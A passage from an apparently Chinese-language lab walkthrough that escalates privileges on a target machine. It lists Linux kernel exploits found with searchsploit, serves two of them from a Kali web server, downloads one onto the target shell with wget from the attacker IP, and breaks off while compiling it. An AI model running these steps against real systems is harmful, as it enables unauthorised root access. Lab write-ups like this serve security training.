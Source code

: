     Linux Kernel 2.6.18 < 2.6.18-20 - Local Privilege Escalation              | linux/local/10613.c
    Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation         | linux/local/50135.c
    Linux Kernel 2.6.23 < 2.6.24 - 'vmsplice' Local Privilege Escalation (1)  | linux/local/5093.c
    Linux Kernel 2.6.28/3.0 (DEC Alpha Linux) - Local Privilege Escalation    | linux/local/17391.c
    Linux Kernel 2.6.32 - 'pipe.c' Local Privilege Escalation (4)             | linux/local/10018.sh
    Linux Kernel 2.6.36-rc8 - 'RDS Protocol' Local Privilege Escalation       | linux/local/15285.c
    Linux Kernel 2.6.x - 'pipe.c' Local Privilege Escalation (2)              | linux/local/33322.c
    Linux Kernel 2.6.x - Ext4 'move extents' ioctl Privilege Escalation       | linux/local/33395.txt
    Linux Kernel 2.6.x - Ptrace Privilege Escalation                          | linux/local/30604.c
    Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                | linux/local/41886.c
    Linux Kernel < 2.6.11.5 - BlueTooth Stack Privilege Escalation            | linux/local/4756.c
    Linux Kernel < 2.6.22 - 'ftruncate()'/'open()' Local Privilege Escalation | linux/local/6851.c
    Linux Kernel < 2.6.28 - 'fasync_helper()' Local Privilege Escalation      | linux/local/33523.c
    Linux Kernel < 2.6.29 - 'exit_notify()' Local Privilege Escalation        | linux/local/8369.sh
    Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation         | linux/local/34923.c
    Linux Kernel < 3.4.5 (Android 4.2.2/4.4 ARM) - Local Privilege Escalation | arm/local/31574.c
    Linux kernel < 4.10.15 - Race Condition Privilege Escalation              | linux/local/43345.c
    Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation    | linux/local/44298.c
    ```
    
    可以尝试一下这两个
    
    ```php
    Linux Kernel 2.6.36-rc8 - 'RDS Protocol' Local Privilege Escalation       | linux/local/15285.c
    Linux Kernel 2.6.x - 'pipe.c' Local Privilege Escalation (2)              | linux/local/33322.c
    ```
    
4. 在`kali`使用 `searchsploit -m <name>` 拉取下来,并且使用`php -S 0:80` 再当前目录创建web服务器（方便靶机下载）
    
    ```php
    earchsploit -m 15285.c
    earchsploit -m 33322.c
    php -S 0:80
    ```
    
5. 使用靶机的shell下载拉取下来的`payload`
    
    ```php
    // 靶机shell
    bash-4.0$ wget 192.168.75.131/33322.c // 重复操作
    
    --2024-09-19 04:51:42--  http://192.168.75.131/33322.c
    Connecting to 192.168.75.131:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 4517 (4.4K) [text/x-c]
    Saving to: `33322.c'
    
         0K ....                                                  100% 5.94M=0.001s
    
    2024-09-19 04:51:42 (5.94 MB/s) - `33322.c' saved [4517/4517]
    ```
    
6. 我自己尝试了33322.c不成功，所以再尝试15285.c
    
    ```php
    // 靶机shell
    gcc 15285.c -o 15285 // 编译
    